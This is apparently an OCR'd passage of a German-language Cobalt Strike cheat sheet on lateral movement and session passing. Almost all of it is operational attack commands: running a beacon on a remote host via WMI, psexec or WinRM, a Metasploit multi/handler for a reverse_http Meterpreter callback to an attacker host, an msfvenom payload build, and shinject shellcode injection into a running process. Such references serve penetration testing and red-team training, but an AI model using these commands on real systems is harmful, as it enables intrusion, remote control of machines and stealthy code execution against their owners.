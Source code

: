 remote-exec [Methode] [Ziel] [Befehl]
## Methoden:
<strong>## psexec                          Remote-Ausführung über den Dienststeuerungs-Manager
</strong>## winrm                           Remote-Ausführung über WinRM (PowerShell)
## wmi                             Remote-Ausführung über WMI

## Um einen Beacon mit WMI auszuführen (es ist nicht im Sprungbefehl enthalten), laden Sie den Beacon einfach hoch und führen Sie ihn aus
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe


# Sitzung an Metasploit übergeben - Über Listener
## Auf dem Metasploit-Host
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## Auf Cobalt: Listeners > Hinzufügen und setzen Sie das Payload auf Foreign HTTP. Setzen Sie den Host auf 10.10.5.120, den Port auf 8080 und klicken Sie auf Speichern.
beacon> spawn metasploit
## Sie können nur x86 Meterpreter-Sitzungen mit dem fremden Listener spawnen.

# Sitzung an Metasploit übergeben - Durch Shellcode-Injektion
## Auf dem Metasploit-Host
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw -o /tmp/msf.bin
## Führen Sie msfvenom aus und bereiten Sie den multi/handler-Listener vor

## Bin-Datei auf den Cobalt Strike-Host kopieren
ps
shinject &#x3C;pid> x64 C:\Payloads\msf.bin #Injizieren Sie den Metasploit-Shellcode in einen x64-Prozess
